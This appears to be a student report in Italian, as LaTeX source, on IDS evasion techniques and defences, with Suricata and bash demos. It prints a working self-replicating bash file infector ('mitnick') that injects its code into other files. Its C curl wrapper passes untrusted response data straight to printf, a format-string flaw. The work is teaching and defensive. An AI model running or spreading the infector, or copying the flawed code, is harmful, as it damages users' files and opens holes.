% This is the LaTex template file for the Journal "Language Development Research"
% Version: 1.0 (2022)
% Author: Mitja Nikolaus (mitja.nikolaus@posteo.de)
% Compile this file using pdflatex.
% The repository for the source files can be found at
%
%     https://github.com/mitjanikolaus/ldr-template
%

\documentclass{ldr-article}

\usepackage{listings}
\usepackage{biblatex}
\usepackage{graphicx}
\graphicspath{ {./figures/} }

\addbibresource{main.bib}
\graphicspath{{figures/}}

% here we can set the page counter to the correct global page counter
\setcounter{page}{1}

% Here we can set the correct volume and issue number for accepted articles
%\fancyfoot[C]{\titlepagefontsize Footer}


\title{Analisi delle principali tecniche di Intrusion Detection System Evasion e potenziali soluzioni }


\author{
Martina Parlavecchio
\\\\
Relazione sulla tematica "Intrusion Detection System Evasion Techniques", per lo scenario di difesa \\
Corso di Internet Security - Anno Accademico 2022/2023 - Docente Giampaolo Bella \\\\
Dipartimento di Matematica ed Informatica \\
Università degli Studi di Catania
}

\begin{document}

    \maketitle

    \begin{abstract}
        Gli Intrusion Detection System (IDS) rappresentano ad oggi una risorsa cruciale per monitorare il traffico che transita all'interno delle reti private, nonchè i processi attivi sui singoli host, ed identificare possibili minacce. Sebbene non siano una soluzione one size fits all rappresentano una componente importante in uno schema di difesa in profondità (defence-in-depth)[\cite{defence-in-depth}]. Già nella loro versione più semplice questi sistemi rappresentano un ulteriore ostacolo per tutti coloro che vogliano impegnarsi in attività malevole e per questo motivo le tecniche di evasion, ovvero delle strategie attraverso cui si tenta di raggirare i sistemi di detection, evitando di allertarli, sono diventate sempre più creative e sofisticate. Al fine di fronteggiare questa minaccia i sistemi si sono evoluti nel tempo fino a diventare estremamente sofisticati, permettendo non solo di identificare rapitamente attacchi già avviati ma persino prevenirli, prendendo il nome di Intrusion Prevention System (IPS). Possono inoltre essere inclusi in sistemi ulteriormente sofisticati come quelli di Security Information and Event Management (SIEM) ed arricchiti attraverso modelli di intelligenza artificiale.
    \end{abstract}
    
    \keywords{Intrusion Detection System; IDS Evasion; IDS Evasion solution}
    \pagebreak

    % table of contents
    \tableofcontents
    \mainmatter

    \pagebreak
    

\section{Introduzione agli IDS}

Un Intrustion Detection System, abbreviato IDS, è un sistema hardware ma più generalmente software realizzato con il preciso scopo di identificare i tentativi di intrusione.

Con \textit{intrusione} definiamo l'azione di ottenere illecitamente privilegi superiori a quelli posseduti lecitamente. Il termine quindi è utilizzato per descrivere sia gli attacchi provenienti dall'esterno della propria rete privata, sia quelli provenienti dall'interno, da parte di utenti che potrebbero anche avere accesso al sistema ma con privilegi minori.

Un IDS si avvale di tecniche di logging e fatta analisi sullo stato registrato effettua confronti ed analisi, secondo le metodologie che verranno descritte in seguito, identificando i tentativi di intrusione.

Il logging è ad oggi una pratica diffusa e non appartiene esclusivamente ai provider di IDS. Attività di logging sono fatte abitualmente ad esempio dai web server per fornire feedback ai tool che si occupano di health-check. Tenere traccia di tutte le informazioni necessarie, sebbene sia concettualmente semplice, può richiedere modifiche agli applicativi (ove questi non siano stati progettati tenendo in mente tale necessità) ed una quantità notevole di memoria nel quale immagazzinare suddetti dati. Esistono inoltre non trascurabili implicazioni in termini sicurezza e disponibilità che non verranno qui trattate per semplicità.

\section{Cenni storici}

Sebbene possa sembrare una prerogativa moderna, l'idea di monitorare lo stato dell'host e più in generale della rete a cui esso appartiene nasceva già nei primi anni 70 da James P. Anderson, bisognerà però aspettare una quindicina d'anni per averne un'effettiva implementazione. Tra 1984 and 1986 dal lavoro congiunto di Dorothy Denning e Peter Neumann viene infatti alla luce il primo prototipo di IDS rule-based, denominato Intrusion Detection
Expert System (IDES). [\cite{ids-history}]

\section{Classificazione}
I sistemi di intrusion detection si presentano in due varianti, a seconda della loro locazione:

\begin{itemize}
  \item Host-based intrusion detection system
  \item Network intrusion detection system
\end{itemize}

A cui ci riferiremo per semplicità con i rispettivi abbreviativi \textit{HIDS} e \textit{NIDS}

Sono ulteriormente classificati in base alla metodologia di detection, ovvero alla strategia adottata per riconoscere le potenziali intrusioni:

\begin{itemize}
  \item Anomaly based intrusion detection system
  \item Signature based intrusion detection system
\end{itemize}

Entrambe le modalità sono ampiamente adottate sia dagli HIDS che dagli NIDS.

\subsection{Signature based intrusion detection system}

Gli IDS di tipo signature-based, anche noti come \textit{knowledge-based}, sono il tipo più tradizionale di IDS. I maggiori NIDS open-source, Snort e Suricata, sono basati su firme. 

L'idea alla base degli IDS basati su firme è utilizzare database contenenti i pattern carattestici dei malware, detti appunto \textit{firme}, in modo tale da identificare le minacce tramite il confronto con le informazioni possedute.

I sistemi di detection puramente basati su firme hanno utilità solo ed esclusivamente contro minacce \textbf{già note} e risultano inefficaci in caso di variazioni rispetto al pattern registrato e soprattutto in caso di attacchi zero day. [\cite{watch-guard-report}]

\subsection{Anomaly based intrusion detection system}
Gli IDS anomaly based, o anche detti \textit{behavior-based}, basano il proprio funzionamento su modelli creati a partire dal comportamento dell'utente legittimo ed identificano come possibili minacce le divergenze da suddetti modelli.

Se ad esempio si osserva che l'utente legittimo effettua il loggin sul proprio account bancario almeno una volta al giorno, tra le 8 e le 17, sicuramente un accesso alle 5 del mattino potrebbe risultare sospetto ed identificato dall'IDS come tentativo di intrusione.

Ad oggi non esistono sul mercato e nel mondo open source sistemi software strettamente di questo tipo, sebbene funzionalità simili siano integrate in molti SIEM.

\subsection{Host-based intrusion detection system}

Gli HIDS sono un concetto estremamente famigliare all'utente comune, sebbene quest'ultimo spesso non ne capisca a fondo i dettagli architetturali ed implementativi. La suite Defender dei sistemi Windows e i software antivirus di terze parti, quali ad esempio Avast, Avira, Norton sono esempi di HIDS. Essendo software commerciali destinati all'utente finale non si limitano alla sola funzione di HIDS ma svolgono anche altre attività, quali ad esempio il filterging di email e l'applicazione di meccanismi anti-phishing che non verranno qui trattati in quanto esulano dal focus principale.

Più in generale un HIDS è un prodotto di natura software si occupa di monitorare i processi attivi all'interno della macchina host su cui è installato.

A seguire è riportato un esempio di script bash che identifica e mostra i processi con il bit SUID, bit atto a concedere temporanei permessi di sudo. Questa potrebbe già intendersi come una routine di un rudimentale HIDS.

\begin{lstlisting}
# bin/bash!
cd // && find / -type f -perm -u=s -iname ".*" 2>/dev/null
\end{lstlisting}


\subsection{Network intrusion detection system}
Un NIDS è un sistema software o hardware che si occupa di monitorare il traffico che transita sulla rete. Può essere posto sia all'interno della rete sia all'esterno. La posizione scelta è una scelta cruciale.

Anteponendo l'NIDS al firewall si identificherebbero tutte le attività anomale, incluse quelle che non avrebbero accesso alla rete in quanto bloccate dal firewall. Questa situazione risulta però solitamente molto costosa ed espone lo stesso IDS agli attacchi.

Un HIDS posto all'interno della rete è solitamente meno esposto ad attacchi e genera quantità ridotte di log, soprattutto se supponiamo la presenza di un firewall che si occupi di bloccare a monte il traffico non autorizzato. Di contro l'adozione di un NIDS può richiedere delle modifiche alla topologia al fine di permettere al sistema di ascoltare il traffico in transito.

\subsection{Note sui tipi di IDS}

Nelle loro implementazioni moderne gli intrusion detection system fungono spesso anche da sistemi di prevenzione e non afferiscono in maniera esatta a categorie specifiche, per tale motivo è abbastanza facile trovare in maniera intercambiabile i termini IDS ed IPS. Trattandosi di software complessi ed integrabili in sistemi ulteriormente avanzati è utile ricordare che la catalogazione non è spesso rigida e totale.

\section{Overview delle tecniche di evasion}

Definiamo come \textit{IDS evasion} tutti quegli attacchi che mirano a raggirare, danneggiare o disabilitare un sistema di intrusion detection.

Classifichiamo le tecniche di evasion in tre macrogruppi, a seconda del tipo di attacco:

\begin{itemize}
  \item Obfuscation
  \item Evasion
  \item Denial of service
\end{itemize}

\subsection{Obfuscation}
L'evasion basato su occultamento prevede l'utilizzo di tecniche che impediscano all'IDS di riconoscere pattern e allertarlo di conseguenza.

Due esempi di obfuscation sono:

\begin{itemize}
  \item \textbf{Encoding}: utilizzo di tecniche di encoding non riconosciute dall'IDS ma comprensibili all'utente finale
  \item \textbf{Polimorfismo}: modifiche alla signature per far si chè non corrisponda alle regole dell'IDS (per gli IDS basati su signature)
\end{itemize}

\subsection{Evasion}
Gli attacchi di questo tipo si basano sulla dissimulazione e sono principalmente legati agli NIDS.

Un attacco di tipo evasion può prevedere ad esempio:

\begin{itemize}
  \item Pacchetti preparati ad hoc per sembrare repliche
  \item Frammentazione di payload malevoli in modo tale che non vengano riconosciuti
  \item Affluenza di pacchetti malevoli lenta e da sorgenti diverse (low-bandwidth attack)
\end{itemize}

\subsection{Denial of service}
Rientrano in questa categoria tutti gli attacchi che mirano a generare un disservizio, disattivando totalmente o in via temporanea l'IDS.

Le tecniche di DoS sono analoghe a quelle dei comuni server e per tanto non verranno approfondite.


\section{Demo}

\subsection{Host signature-based IDS evasion}

La prima e più semplice delle demo proposte suppone che un malware polimorfico, denominato \texttt{mitnick} sia riuscito a penetrare all'interno dell'host vittima, un ambiente Linux, magari scaricato dalla rete o diffuso tramite tecniche di social engineering.

Quando l'utente eseguirà il malware, credendolo un programma legittimo, questo si replicherà in tutti i file della stessa directory. Quando l'utente eseguirà uno dei programmi infettati questi prima di eseguire il proprio codice eseguiranno quello malevolo, iniettato dal malware.

La signature di \texttt{mitnick} non è univoca ma viene di volta in volta generata ed appesa ad un file, memorizzato all'interno del path \texttt{/tmp/}. Il malware ricercherà poi la propria signature appena generata all'interno del file per capire se il file corrente è già stato infettato o meno.

\begin{lstlisting}

generate_signature() {
    # Append a random number to the file
    echo $RANDOM >> /tmp/signatures
}

generate_signature

for f in *; do
    # Check if the file is a directory
    if [ -d "$f" ]; then
        # If it is a directory, then skip it
        continue
    fi

    if [ "$f" = "mitnick.sh" ]; then
        # If it is the worm itself, then skip it
        continue
    fi

    # Check if the first line of the file
    # is a comment line contained in the /tmp/signatures file
    if head -n 1 "$f" | grep -q -f /tmp/signatures; then
        # If it is infected, then skip it
        continue
    fi

    # Get last line of the /tmp/signatures file
    last_signature=$(tail -n 1 /tmp/signatures)

    cat mitnick.sh >> "$f.tmp"

    #Insert the last signature in the file header
    sed -i "1s/^/$last_signature\n/" "$f.tmp"

    mv "$f.tmp" "$f"
done
\end{lstlisting}

Ovviamente \texttt{mitnick} è un esempio giocattolo e per semplicità non vengono gestiti gli accessi concorrenti in scrittura al file e la propagazione nelle sub-directory. 

In quanto malware polimorfico non è identificabile da IDS basati su regole. Adottiamo quindi delle euristiche per fronteggiare l'attacco.

Lo script Bash presentato in questa demo vuole essere una forma di rudimentale di IDS che sfrutti euristiche per fronteggiare minacce non identificabili attraverso il sistema di firme.

\begin{lstlisting}
# Find susplicious files in /tmp directory
find_sus_path() {
    # Find all files that have been modified in
    # the last 5 minutes in tmp directory
    # Exclude files that are owned by root
    find /tmp -mmin -5 -type f ! -user root
}

# Log susplicious files in /var/log/ids.log
log_sus_path() {
    echo "Searching for affected files..."
    find_sus_path > /var/log/ids.log

    # If there are no affected files, exit
    if [ ! -s /var/log/ids.log ]; then
        echo "No affected files found"
        exit 0
    fi

    echo "Affected files found."

    # Start monitoring affected files
    echo "Starting monitoring of affected files..."
    while read -r file_path; do
        analyze_file_size_change "$file_path" &
    done < /var/log/ids.log

   # For each file in the log file, get the last writer
    while read -r file_path; do
        analyze_file_size_change "$file_path"
    done < /var/log/ids.log
}

# Analyze file size change
analyze_file_size_change( ) {
    file_path="$1"
    # Dimensione iniziale del file
    initial_size=$(wc -c < "$file_path")

    echo "Looking for $file_path changes..."
    while true; do

    current_size=$(wc -c < "$file_path")

    # If file size has changed, send alert
    if [ "$initial_size" != "$current_size" ]; then
        echo "File $file_path has changed size"
    fi
    sleep 1
    done
}

# Analyze path
analyze_path(){
    echo "Analyzing path $1"

    # Inspect all files in the path and subpaths
    # Send alert if at least one row of file contains
    # one of the string in the /var/log/ids file
    find "$1" -type f -exec grep -q -f /var/log/ids.log {} \; -print

    # If there are no affected files, exit
    if [ ! -s /var/log/ids.log ]; then
        echo "No affected files found"
        exit 0
    fi

    echo "Affected files found."
}

start() {
    echo "Starting IDS"
    log_sus_path
}

stop() {
    echo "Stopping IDS"
    exit 0
}

case "$1" in
    start)
        start
        ;;
    stop)
        stop
        ;;
    scan)
        analyze_path "$2"
        ;;
    *)
        echo "Usage: $0 {start|stop|scan <path>}"
        exit 1
esac
\end{lstlisting}

Attraverso una serie di routine monitora i file nella directory \texttt{tmp} e logga informazioni sui file scritti negli ultimi 5 minuti e le cui scritture sono ancora in corso (segno di una potenziale attività malevola). Attraverso la routine \texttt{analyze\_path} consente poi di verificare se il contenuto dei file sospetti sia presente all'interno del path che si sta analizzando. Così facendo è possibile trovare un riscontro sulle multi-firme e quindi sui file infettati.

Come molti sistemi di questo tipo, anche i più evolutivi, questo approccio presenta inevitabilmente dei falsi positivi. Per semplicità ho supposto che il malware lasciasse il proprio file in chiaro.

Una possibile evolutiva di questo scenario in attacco consisterebbe nel cifrare le signature ed una delle possibili contromisure in difesa potrebbe essere effettuare un analisi statica del codice e, attraverso degli eventuali pattern, verificare quali programmi utilizzino algoritmi di cifratura in situazioni che possano sembrare sospette.

\subsection{Network signature-based IDS Evasion}
La seconda demo presentata si appoggia all'IDS Suricata nella sua configurazione base [\cite{suricata-getting-started}] ed è incentrata su uno scenario d'attacco di tipo obfuscation.

Lo scenario prevede tre macchine virtuali:

\begin{itemize}
  \item Router (Debian 12)
  \item IDS (Ubuntu Server 22.04)
  \item Host dell'utente Alice (Debian 12)
\end{itemize}

Le versioni del sistema operativo non sono rilevanti per la demo e sono state scelte solo per familiarità e facilità di configurazione.

Al fine di semplificare la demo non è stato inserito un ulteriore firewall, sebbene in ambienti reali sia ampiamente consigliato l'utilizzo.

La macchina IDS ascolterà tutto il traffico che transita nella rete, in questo particolare caso destinato ad Alice.

Il router non assolve alcuna funzione particolare se non quella di simulare un NAT.

Gli indirizzi IP sono assegnati staticamente e la macchina virtuale che ospita l'IDS ha la scheda di rete configurata per ascoltare in modalità \textit{promiscua}.

\begin{figure}[htp]
    \centering
    
\includegraphics[scale=0.5]{nids-schema.png}
\end{figure}

Quando l'utente Alice visiterà il sito malevolo (effettuerà una \texttt{cURL} nel nostro caso)

\texttt{http://testmynids.org/uid/index.html }

l'IDS verrà allertato. All'interno del file di log dedicato verrà infatti appeso un warning del tipo:

\begin{lstlisting}
[1:2100498:7] GPL ATTACK_RESPONSE id check returned root
[**] [Classification: Potentially Bad Traffic]
[Priority: 2] {TCP} 217.160.0.187:80 -> 10.0.0.23:41618
\end{lstlisting}

Tuttavia se ipotizziamo la possibilità per il sito malevolo di avere un certificato HTTPS valido e quindi una connessione cifrata l'IDS sarà incapace di intercettare il traffico malevolo.

La stessa visita all'indirizzo in HTTPS non genera infatti alcun alert.

\texttt{https://testmynids.org/uid/index.html }

La soluzione proposta, prevede di aggiungere un ulteriore layer di controllo sull'host di destinazione e, una volta decriptato il payload della risposta, leggerlo, analizzarlo e loggarlo.

Per fare ciò è stato creato un wrapper di \texttt{cURL} che effettua il logging del traffico malevolo.

\begin{lstlisting}

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <curl/curl.h>

// HTTP response data structure
struct ResponseData {
	char* data;
	size_t size;
};

// Writing callback function
size_t write_callback(char* ptr, size_t size, size_t nmemb, void* userdata) {
	struct ResponseData* response = (struct ResponseData*)userdata;
	size_t response_size = size * nmemb;
	size_t new_size = response->size + response_size;

	response->data = realloc(response->data, new_size + 1);
	if (response->data == NULL) {
		printf("ERROR: Allocation fault.\n");
		return 0;
	}

	// Copy the response data to the response structure
	memcpy(response->data + response->size, ptr, response_size);
	response->size = new_size;

	// Add the null terminator
	response->data[response->size] = '\0';

	return response_size;
}

// Main function
int main(int argc, char* argv[]) {
	if (argc != 2) {
		printf("Usage: %s <URL>\n", argv[0]);
		return 1;
	}

	CURL* curl;
	CURLcode res;
	char* url = argv[1];

	// Init libcurl
	curl_global_init(CURL_GLOBAL_DEFAULT);

	// Init the cURL session
	curl = curl_easy_init();
	if (curl) {
		// Set URL for the request
		curl_easy_setopt(curl, CURLOPT_URL, url);

		// Create a struct to store the response data
		struct ResponseData response;

		// Set to empty
		response.data = malloc(1); 
		response.size = 0;

		// Set the callback function
		curl_easy_setopt(curl, CURLOPT_WRITEFUNCTION, write_callback);

		// Pass the struct to the callback function
		curl_easy_setopt(curl, CURLOPT_WRITEDATA, &response);

		// Exec the request
		res = curl_easy_perform(curl);

		// Looking for the string "uid=0(root) gid=0(root) groups=0(root)"
		char* search_string =
                "uid=0(root) gid=0(root) groups=0(root)";

		if (res == CURLE_OK && strstr(response.data, search_string) != NULL) {
			printf(response.data);

			FILE* log_file = fopen("curl.log", "a");
			if (log_file != NULL) {
				// Ottieni il timestamp corrente
				time_t now = time(NULL);
				struct tm* timeinfo = localtime(&now);
				char timestamp[20];
				strftime(
                        timestamp,
                        sizeof(timestamp),
                        "%Y-%m-%d %H:%M:%S",
                        timeinfo
                    );

				// Write the log
				fprintf(
                        log_file,
                        "[%s][!WARNING] '%s' detected.\n",
                        timestamp,
                        search_string
                    );

				// Close the log file
				fclose(log_file);
			} else {
				printf("Error in writing log file log.\n");
			}
		}

		free(response.data);
		// Cleanup
		curl_easy_cleanup(curl);
	}

	curl_global_cleanup();

	return 0;
}

\end{lstlisting}

Il programma C in questione riporta il contenuto della stringa malevola all'interno di un file di log locale. Per semplicità è stato scritto nella cartella corrente ma una buona strategia prevederebbe di conservarlo insieme ai log di altri applicativi al path \texttt{}{/var/log/} oppure in \texttt{/etc/<nome-applicazione>/}.

\subsubsection{Note sulla configurazione della demo}
Trattandosi di una demo basata su macchine Debian, precisamente la sua variante minimale netinstall occorre effettuare un minimo di setup affinchè le macchine risultino tutte correttamente funzionanti.

\textbf{Configurare il router}

Dovendo ricorrere al comando \texttt{iptables} può essere utile appendere \texttt{sbin}, dove comunemente si trova \texttt{iptables} al \texttt{PATH} (alternativamente si dovrà specificare il path dell'eseguibile per intero di volta in volta).

\begin{lstlisting}
$ PATH=/sbin/:$PATH
\end{lstlisting}

Va inoltre configurato per il forwarding
\begin{lstlisting}
# iptables --table nat --append POSTROUTING --out-interface enp0s3 -j MASQUERADE
# iptables --append FORWARD --in-interface enp0s3 -j ACCEPT
\end{lstlisting}

È consigliabile restartare il servizio se si dispone di una CLI oppure forzare il flush nel caso in cui le regole non vengano recepite.

Nativamente \texttt{iptables} non offre tale CLI quindi mi sono appoggiata a \texttt{netfilter-persistent}. [\cite{ask-ubuntu}]

\textbf{Configurare dell'IDS Suricata}

Come preannunciato, l'IDS dispone di una scheda di rete in modalità promiscua che ascolta il traffico transitante. Non occorrono particolari configurazioni se non quelle indicate dalla documentazione ufficiale.

\textbf{Configurare dell'Host Alice}

Per l'host Alice occorre compilare il programma \texttt{curl-wrapper.c} linkando la libreria \texttt{lcurl}.

\begin{lstlisting}
$ gcc curl-wrapper.c -o curl -lcurl
\end{lstlisting}

Una volta compilato il programma può essere utilizzato come wrapper di curl

\begin{lstlisting}
$ ./curl https://testmynids.org/uid/index.html
\end{lstlisting}

\section{Considerazioni finali}

Come si può osservare in entrambe le demo gli IDS sono una tecnologia vastissima che si presenta in molteplici sfumature. Dai software commerciali può quotati alle routine più semplici, nessuno di questi sistemi è immune a falsi positivi e falsi negativi e non può essere inteso come una soluzione universale al problema delle intrusioni. Previa un'analisi costi benefici della realtà che si vuole tutelare, è certamente una soluzione che, integrata in uno stack con altri tools e policy, può fornire un grado soddisfacente di protezione. [\cite{ids-and-firewall}].

Combinare più firewall, NIDS e HIDS ibridi, costruire una DMZ, sono tutte soluzioni in linea generale adatte a realtà che necessità una forte hardenizzazione, sebbene occorra sempre un'analisi del caso specifico per realizzare la gold-measure o quanto meno avvicinarcisi il più possibile.

È inoltre importante ricordare che questi sistemi, proprio per la loro criticità, vanno a propria volta tutelati, altrimenti potrebbero costituire un'ulteriore vulnerabilità per il sistema che hanno l'obiettivo di proteggere.[\cite{onion}]

In conclusione, la difesa in profondità è spesso l'unica risposta per un livello di sicurezza che possa definirsi soddisfacente. È indispensabile evitare i single point of failure e affidarsi (mai ciecamente) a software robusto e mantenuto, nonchè a personale qualificato.

\clearpage
\appendix

\printbibliography
 
\end{document}
